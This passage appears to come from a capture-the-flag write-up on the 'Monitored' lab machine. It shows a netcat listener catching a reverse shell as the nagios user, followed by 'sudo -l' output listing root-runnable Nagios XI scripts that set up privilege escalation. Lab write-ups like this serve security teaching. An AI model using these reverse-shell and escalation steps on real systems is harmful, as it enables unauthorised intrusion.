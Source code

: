 ![img-description](6.png)

We are in 

```shell
pl4int3xt@archlinux ~> nc -nlvp 4444
Connection from 10.10.11.248:37526
bash: cannot set terminal process group (22933): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$
```

Next we start with our simple check of the services we can run as sudo.

```shell
nagios@monitored:~$ sudo -l
sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```
